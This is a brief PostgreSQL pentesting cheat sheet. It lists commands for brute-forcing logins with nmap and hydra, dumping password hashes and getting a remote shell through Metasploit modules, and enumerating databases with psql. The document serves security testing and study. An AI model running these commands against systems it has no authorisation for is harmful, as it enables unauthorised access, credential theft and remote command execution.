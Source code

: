 ```yaml
---
title: PostgreSQL Pentesting
description: PostgreSQL a relational database management system. Default port is 5432.
tags:
    - Database
refs:
date: 2023-03-09
draft: false
---
```


## Enumeration

```sh
nmap --script pgsql-brute -p 5432 <target-ip>
```

### Brute Force Credentials

```sh
hydra -l username -P passwords.txt <target-ip> postgres
hydra -L usernames.txt -p password <target-ip> postgres

# Metasploit
msfconsole
msf> use auxiliary/scanner/postgres/postgres_login
msf> set rhosts <target-ip>
msf> run
```

### Dump User Hashes

```sh
msfconsole
msf> use auxiliary/scanner/postgres/postgres_hashdump
msf> set rhosts <target-ip>
msf> set username <username>
msf> set password <password>
msf> run
```

<br />

## Connect

### Remote

```sh
# -W: Force password prompt
psql -h <target-ip> -p <target-port> -d <database> -U <username> -W
# -w: No password
psql -h <target-ip> -p <target-port> -d <database> -U <username> -w
```

<br />

## Commands in psql

```sh
# Print help
\?

# Print the version of PostgreSQL
select version();

# Display command history
\s

# List databases
\l

# Switch to the given database
\c <database_name>

# List tables
\dt

# Descibe the table information
\d <table_name>

# Get values in the table
select * from <table>;

# List all users
\du

# Exit psql shell
\q
```

<br />

## Get a Shell and Command Execution

```sh
msfconsole
msf> use exploit/multi/postgres/postgres_copy_from_program_cmd_exec
msf> set rhosts <target-ip>
msf> set lhost <local-ip>
msf> set tablename <table_name>
msf> set username <username>
msf> set password <password>
msf> run
shell
```